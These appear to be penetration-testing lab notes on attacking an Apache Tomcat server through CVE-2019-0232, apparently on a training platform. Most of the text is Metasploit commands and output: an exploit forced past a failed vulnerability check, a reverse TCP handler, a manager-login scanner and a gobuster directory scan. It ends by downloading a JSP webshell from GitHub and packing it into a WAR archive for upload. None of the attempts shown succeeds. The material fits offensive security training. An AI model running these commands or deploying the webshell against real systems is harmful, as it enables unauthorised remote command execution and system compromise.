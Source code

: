 CVE-2019-0232

[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_jsp_upload_bypass) >> search CVE-2019-0232

   0  exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability

use 0
set LHOST 10.10.15.193
set RHOSTS 10.129.201.89
check
[*] 10.129.201.89:8080 - The target is not exploitable.

run

[*] Started reverse TCP handler on 10.10.14.88:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.

set ForceExploit true
run

[*] Started reverse TCP handler on 10.10.14.88:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. ForceExploit is enabled, proceeding with exploitation.
[*] Command Stager progress -   6.95% done (6999/100668 bytes)
[*] Command Stager progress - 100.02% done (100692/100668 bytes)
[*] Exploit completed, but no session was created.

gobuster dir -u http://10.129.201.89:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 

/docs                 (Status: 302) [Size: 0] [--> http://10.129.201.89:8080/docs/]
Progress: 765 / 87665 (0.87%)                                                   
/examples             (Status: 302) [Size: 0] [--> http://10.129.201.89:8080/examples/]
/http%3A%2F%2Fwww     (Status: 400) [Size: 0]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 0]                                          
/http%3A%2F%2Fblogs   (Status: 400) [Size: 0]                                          
/http%3A%2F%2Fblog    (Status: 400) [Size: 0] 
/**http%3A%2F%2Fwww   (Status: 400) [Size: 0]  

use auxiliary/scanner/http/tomcat_mgr_login 
set STOP_ON_SUCCESS true
set RHOSTS 10.129.201.89
run

[-] http://10.129.201.89:8080/manager/html - Authorization not requested
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

# Upload malicious war archive

wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
